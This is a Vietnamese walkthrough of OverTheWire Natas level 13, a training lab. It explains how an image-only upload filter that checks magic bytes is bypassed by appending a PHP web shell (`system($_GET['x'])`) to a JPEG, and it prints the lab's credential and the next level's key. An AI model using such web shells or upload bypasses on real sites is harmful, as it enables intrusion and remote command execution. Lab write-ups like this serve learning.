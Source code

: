 # Natas Level 13

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas13.natas.labs.overthewire.org**     
**Credential: natas13:*trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas13-1.png)

==>Từ mô tả có thể thấy giờ đã có thêm filter để chỉ cho phép file image mới được up lên rồi!.

2. Source code:
```PHP
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

-Dòng code: 
```bash
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
+hàm ```exif_imagetype()``` sẽ đọc vài byte đầu (magic bytes) của file và xác định xem nó có phải file ảnh không

==>Dùng ```polyglot file``` để bypass this.

(Cho ai chưa biết thì polyglot đơn giản là 1 file nhưng mà hợp lệ với nhiều định dạng cùng lúc)

-Follow command:   
```bash
wget https://cdn-media.sforum.vn/storage/app/media/anh-dep-83.jpg
cat cat anh-dep-83.jpg > shell.php
echo "<?php system(\$_GET['x']); ?>" >> shell.php
```

-Giờ file ```shell.php``` có lẽ đã hợp lệ, thử upload lên thử:   

![alt text](Image/Natas13-2.png)

==>OKE, và nhớ rằng nếu file ảnh mà to quá thì xóa bớt content trong đó đi để bypass hàm ```filesize()``` nhé ~.

-Giờ làm như level trước và lấy key thui.

## 📌 Key: ```z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```